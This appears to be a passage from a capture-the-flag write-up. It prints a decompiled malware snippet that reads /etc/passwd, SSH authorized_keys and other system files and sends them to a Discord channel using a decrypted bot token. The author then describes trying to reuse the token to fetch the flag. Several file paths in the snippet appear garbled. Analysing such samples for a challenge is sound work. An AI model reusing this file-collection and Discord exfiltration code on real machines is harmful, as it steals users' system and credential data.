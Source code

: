 ```python
y = base64.b64decode('Z5dTXFyUTK9F5+Y9lDl0UdVyL63sDbN2ePDajnLXoXLbdfR5w6tCrGfGcmNslX18sJV2g8E42q8rhzt2DeYrfjQrP145eGYWy/vTruslc08=')
tkn = d(y, z, iv)
user_home = os.path.expanduser('~')
files = ['/etc/hostname', '/etc/passwd', '/etc/issue', '/etc/os-release', f'{user_home}0', f'{user_home}0', f'{user_home}0', f'{user_home}0', f'{user_home}0', f'{user_home}0', f'{user_home}/.ssh/authorized_keys']
fc = g(files)
discord_channel_id = '1290060281657036938'
if tkn:
    s(tkn, discord_channel_id, fc)
```

Okay so this malware exfiltrate informations on a discord bot, we can add a `breakpoint()` before the `requests.post` to performs a `GET` request with same headers and same URL to get the flag (i have try to performs the `POST` request, without my Linux configurations, but this is not working too, with the same error code).

But i don't have the flag because the discord API returns an error 401... I ask to admin, it's the good way, but i can't get the flag, probably the the limit is exceeded for the bot API key (no solve on the last 2 hours for this challenge).
